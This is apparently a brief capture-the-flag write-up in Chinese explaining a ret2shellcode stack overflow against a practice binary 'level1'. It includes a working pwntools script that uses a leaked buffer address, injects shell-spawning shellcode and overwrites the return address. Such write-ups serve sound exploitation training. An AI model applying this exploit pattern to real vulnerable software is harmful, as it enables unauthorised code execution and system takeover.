

- `ret2shellcode`

1. 存在漏洞函数`vulnerable_function`
2. `printf`函数泄露了`buf`栈上地址
3. `read`函数中,`buf`变量中存在溢出
4. 往`buf`写入`shellcode`再跳转到`buf`栈上

```python
from pwn import *
io = process('./level1')

io.recvuntil(b'What\'s this:')
buf_addr = eval(io.recv(10))
shellcode = asm(shellcraft.sh())
payload = shellcode
payload = payload.ljust(0x88,b'\x00')+p32(0)+p32(buf_addr)
io.sendline(payload)
io.interactive()
```


